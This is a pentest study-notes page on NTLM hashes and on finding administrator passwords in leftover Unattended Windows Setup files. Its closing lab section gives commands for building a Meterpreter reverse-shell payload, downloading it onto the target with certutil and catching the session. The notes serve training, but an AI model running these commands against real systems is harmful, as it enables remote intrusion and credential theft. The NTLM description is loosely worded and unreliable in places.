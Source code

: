 <figure><img src="../../.gitbook/assets/57.png" alt=""><figcaption></figcaption></figure>

#### NTLM hash

* NTLM (NTHash) is a collection of authentication protocols thath are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
* From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
* WHen a user account is created, it is encrypted using the **MD4** hashing algorithm, while the original password is disposed of.
* NTLM improves upon LM in the following ways :
  * Does not split the hash in to two chunks.
  * Case sensitive.
  * Allows the use of symbols and unicode characters.

### Searching for passwords in Windows config files

#### Windows config files

* Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
* This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems.
* This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
* If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with Windows target legitimately.

#### Unattended Windows Setup

* The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information :
  * c:\windows\panther\unattend.xml
  * c:\windows\panther\autounattend.xml
* As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

#### Lab

```bash
john@attack> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.9.2 LPORT=1234 -f exe > payload.exe
john@attack> python -m SimpleHTTPServer 80
```

```powershell
C:\Users\student> cd Desktop
C:\Users\student> certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe
```

```bash
john@attack> msfconsole

msf6> use multi/handler
msf6> set lhost 10.10.9.2
msf6> set lport 1234
msf6> run
```
